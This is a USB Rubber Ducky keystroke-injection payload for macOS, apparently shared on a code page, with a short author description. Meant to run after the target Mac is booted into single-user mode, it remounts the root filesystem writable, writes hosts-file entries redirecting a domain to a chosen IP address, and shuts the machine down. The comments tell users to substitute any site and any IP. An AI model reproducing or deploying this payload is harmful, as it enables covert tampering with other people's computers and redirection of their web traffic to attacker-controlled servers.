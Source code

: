 * Author - SWISA
* Boot into single user mode and insert ducky. This script will created a dns entry. This payload was encoded with v2.4 on firmware duck_v2.1.hex. Change IP Adress and/or url if you want to 

 REM SWISA
 REM A script to create a dns entry in the host file of a mac
 REM change the example.com to any site you want
 REM change the 127.0.0.1 to any ip you want
 DELAY 1000
 STRING mount -uw /
 ENTER
 DELAY 2000
 ENTER
 STRING nano /private/etc/hosts
 ENTER
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 DOWNARROW
 STRING 127.0.0.1 example.com
 ENTER
 STRING 127.0.0.1 www.example.com
 ENTER
 CTRL O
 ENTER
 CTRL X
 STRING shutdown -h now